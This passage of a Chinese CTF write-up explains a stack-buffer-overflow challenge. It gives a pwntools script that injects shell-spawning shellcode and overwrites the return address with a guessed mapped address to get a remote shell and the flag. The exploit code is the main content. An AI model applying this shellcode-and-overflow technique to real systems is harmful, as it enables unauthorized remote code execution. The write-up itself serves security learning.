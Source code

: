同样这个程序并没有包含 flag 的信息，那么我们还是希望攻入远程终端查看 flag 信息。

在这里我们希望通过栈溢出的方式来攻击这个程序，我们把 shellcode 的代码注入到输入的 map_addr 地址上，通过溢出 buffer 使其跳到 map_addr 上，即打开终端。因为地址是随机的，所以我们需要多尝试几次，直到输入的包正好打到 address 即可进入远程终端。

这里我们就需要看一下 buffer 的偏移量，用 IDA 打开 elf 文件，可以看到：

![image-20240707203608549](../../../assets/image-20240707203608549.png)

那么编写 python 程序如下：

```python
from pwn import *
from wstube import websocket
import random

context.arch = 'amd64'

p = websocket("wss://ctf.zjusec.com/api/proxy/9ec6f4ef-477b-458b-a3e4-1ea5ca3b52be")

sc_asm = shellcraft.sh()
sc = asm(sc_asm)

payload = flat(
    b"A" * 0x48, # 要使得栈溢出得在原来的基础上加 8
    p64(0x20000 + (random.randint(0,7)) * 0x1000)
)

p.sendlineafter("what's your name: ", sc)
p.sendlineafter("try to overflow me~", payload)
p.interactive()
```

一发入魂！进入终端，拿到 flag：

![image-20240707203855146](../../../assets/image-20240707203855146.png)